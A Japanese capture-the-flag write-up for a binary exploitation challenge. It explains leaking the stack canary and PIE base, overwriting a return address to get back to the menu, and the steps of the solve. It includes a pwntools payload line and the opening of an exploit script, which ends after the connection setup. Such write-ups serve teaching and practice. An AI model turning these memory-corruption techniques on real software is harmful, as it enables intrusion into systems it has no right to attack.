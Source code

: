 canaryは`rbp-0x8`に存在しており、その1byte目は\x00なので、無効な文字を7文字入力してあげるとleakすることができます。
{{ image(path="static/img.png", caption="canary leak") }}

同様にreturn addressも無効な文字を13文字入力するとleakすることができます。
{{ image(path="static/img1.png", caption="PIE base leak") }}

### トラップからの復帰

ret overwriteを使ってメニュー画面に飛ぶようにするとトラップからの復帰を行えます。
具体的には以下のようなコードを使いました。

```py
loop_addr = p64(pie_base + 0x2F7A)
ret = p64(pie_base + 0x12B8)
t.send(dist + b"A" * 4 + p64(canary) + fake_rbp + ret + loop_addr)
```

以下の画像では、終了メッセージである`it is crushing`のあとも実行が続いていることを確認できます。
{{ image(path="static/img2.png", caption="トラップからの復帰") }}

## 攻撃

以下の手順で解きました。

1. x,yの取得
2. canary, stack base, pie baseのleak
3. 四隅の内最も近いところまで移動
4. 0x19の正方形をすべて探索

注意点として、非本質的なところですがサーバーとの接続は20秒で切れてしまうため`recvuntil`
などを用いて逐次的に命令を実行するのではなく、`recv`でレスポンスをまとめて受け取ると良いです。

{{ image(path="static/img3.png", caption="必要な値のleak") }}

## スクリプト

```py
from pwn import *

context.arch = "amd64"
context.bits = 64
context.terminal = "tmux splitw -h".split()
context.log_level = "DEBUG"

s2sh = lambda pl: b"".join([p8(int(pl[i : i + 2], 16)) for i in range(0, len(pl), 2)])
s2u64 = lambda s: u64(s.ljust(8, b"\x00"))
i2b = lambda x: f"{x}".encode()
ptr_guard = lambda pos, ptr: (pos >> 12) ^ ptr


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                [elf_name, "bctf{REDUCTED}"], script, env={"LD_PRELOAD": libc_name}
            )
    else:
        io: tubes.tube.tube = process(
            [elf_name, "bctf{REDUCTED}"], env={"LD_PRELOAD": libc_name}
        )
    return io

```